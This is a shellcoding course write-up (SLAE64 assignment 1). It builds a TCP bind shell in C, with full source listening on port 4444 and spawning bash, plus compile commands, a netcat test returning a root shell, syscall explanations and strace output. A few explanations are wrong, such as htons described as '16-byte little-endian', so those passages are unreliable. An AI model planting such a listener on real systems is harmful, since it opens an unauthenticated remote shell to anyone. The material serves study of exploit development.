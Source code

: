 ```yaml
---
title: SLAE64 Assignment 1 - TCP Bind-Shell Shellcode
date: 2020-4-06
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# Bindshell Analysis
## Bindshell.c
+ To better understand x64 shellcode, I first created a working bindshell in C.

### shellcode.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  struct sockaddr_in ipSocketAddr = { 
    .sin_family = AF_INET, 
    .sin_port = htons(4444), 
    .sin_addr.s_addr = htonl(INADDR_ANY) 
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/bash", NULL, NULL);
}
```
### Compile Shellcode
```bash
root# uname -orm
5.3.0-amd64 x86_64 GNU/Linux
root# gcc bindshell.c -o bindshell
```

### Test Shellcode
#### Terminal 1
```bash 
root# ./bindshell

```
#### Terminal 2
```bash
root# nc 127.0.0.1 4444
whoami
root

```

### Function Analysis
1. Create a new Socket.
```c 
int socket(int domain, int type, int protocol); 
```  
  + For complete details see: `man socket`
```c
int domain = AF_INET
```
+ IPv4 Internet protocols.

```c
int type = SOCK_STREAM
```
+ Provides sequenced, reliable, two-way, connection-based byte streams (TCP).
```c
int protocol = IPPROTO_IP
```
+ The protocol to be used with the socket.
+ With only one protocol option in the address family, the value `0x0` is used.

2. Create an IP Socket Address structure.
```c
struct sockaddr_in {
  sa_family_t    sin_family; /* address family: AF_INET */
  in_port_t      sin_port;   /* port in network byte order */
  struct in_addr sin_addr;   /* internet address */
};
struct in_addr {
  uint32_t       s_addr;     /* address in network byte order */
}; 
```
+ `sa_family_t sin_family  = AF_INET`   
  - From Socket, we know that we will need to use the Address Family `AF_INET`  
+ `in_port_t sin_port      = htons(4444)`  
  - TCP Port 4444  
  - The `htons()` function converts our decimal integer to 16-byte little-endian hex (aka "network byte order")  
+ `struct in_addr sin_addr = htonl(INADDR_ANY)`   
  - All interfaces.  
  - The `htonl()` function converts our decimal integer to 32-byte little-endian hex.    
+ For complete details see: `man ip.7`  

3. Bind the IP Socket Address to Socket. 
```c
int bind(int sockfd, const struct sockaddr \*addr, socklen\_t addrlen);`
```
  + `sockfd = ipv4Socket`  
    - The socket file descriptor returned from `socket()` and saved as the variable `ipv4Socket`.  
  + `const struct sockaddr *addr = &ipSocketAddr`  
    - A pointer to the IP Socket Address structure `ipSocketAddr`.  
  + `socklen_t addrlen = sizeof(ipSocketAddr)`  
    - The byte length of our `ipSocketAddr` structure.  
    - `sizeof()` returns the length in bytes of the variable.  
  + For complete details see: `man bind`  

4. Listen for connections to the TCP Socket at the IP Socket Address.  
```c
int listen(int sockfd, int backlog);
```  
  + `int sockfd  = ipv4Socket`  
  + `int backlog = 0`   
    - This is for handling multiple connections.   
    - We only need to handle one connection at a time, therefor we will set this value to `0`.   
  + For complete details see: `man listen`  

5. Accept connections to the TCP-IP Socket and create a Client Socket.  
```c
int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
```  
  + `int sockfd = ipv4Socket`  
  + `struct sockaddr *addr = NULL`  
    - This structure is filled in with the address of the peer socket.  
  + `socklen_t *addrlen = NULL`  
    - When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.  
  + `int flags  = NULL`  
  + The function will return the new Socket File-Descriptor. Save as `clientSocket`  
  + For complete details see: `man accept`  

6. Transfer Standard-Input, Standard-Output, and Standard-Error to the client socket.  
```c
int dup2(int oldfd, int newfd);
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```   
  + For complete details see: `man dup2`  

7. Spawn a `/bin/sh` shell for the client, in the connected session.  
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
execve("/bin/sh", NULL, NULL);
```  
  + `const char *pathname = "/bin/sh"`  
  + `char *const argv[] = NULL`  
  + `char *const envp[] = NULL`  
  + For complete details see: `man execve`  

### Trace System-Calls  
+ Use `strace` to see system calls as the `shellcode` executes.  
```bash 
root# strace ./bindshell
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
```  
+ We see that the `Socket File-Descriptor` for our socket.
```bash
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3, NULL, NULL

```
+ We can see it hangs at `accept(`. To keep it moving we connect to our bindshell with `nc 127.0.0.1 4444`.  
+ I removed all of the system-calls that were irrelevant from the system trace.  

```bash
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/bash", NULL, NULL)         = 0

```
